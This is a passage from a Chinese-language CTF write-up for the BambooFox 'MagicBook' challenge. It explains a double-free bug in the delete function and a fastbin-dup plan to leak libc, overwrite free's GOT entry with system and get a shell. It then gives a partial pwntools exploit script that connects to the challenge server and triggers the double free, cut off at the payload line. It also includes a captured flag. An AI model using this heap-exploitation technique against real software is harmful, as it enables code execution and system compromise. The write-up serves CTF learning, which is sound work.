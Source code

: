 flag:`BAMBOOFOX{GOLANG_PWnnnnnnnIng_iS_r3A11Y_W3iRdO_O}`

### MagicBook 455

delete函数中,free时没有检测指针是否非NULL,free完也没有清空指针.导致可以double free.

这边我使用freebin dup来做.

利用freebin dup到got前面附近,leak出free的地址,算出system地址.

再次利用freebin dup到got前面负荆,修改free为system.从而get shell.

exp:

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./MagicBook')
	bin = ELF('./MagicBook')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	cn = remote('bamboofox.cs.nctu.edu.tw', 58798)
	libc = ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()


def add_chant(idx,length,con):
	cn.sendline('1')
	cn.recvuntil("want to use :")
	cn.sendline(str(idx))
	cn.recvuntil('your chant :')
	cn.sendline(str(length))
	cn.recvuntil('your chant :')
	cn.send(con)

def dele(idx):
	cn.sendline('2')
	cn.recvuntil("want to use :")
	cn.sendline(str(idx))

def spell(idx):
	cn.sendline('3')
	cn.recvuntil("want to use :")
	cn.sendline(str(idx))

add_chant(0,0x50,'aaaaaaaaaa')
add_chant(1,0x50,'bbbbbbbbbb')
add_chant(2,0x10,'bbbbbbbbbb')
dele(0)
dele(1)
dele(0)
dele(1)
dele(2)
#z('b*0x0000000000400981\nc')
pay = p64(0x602002-8)
```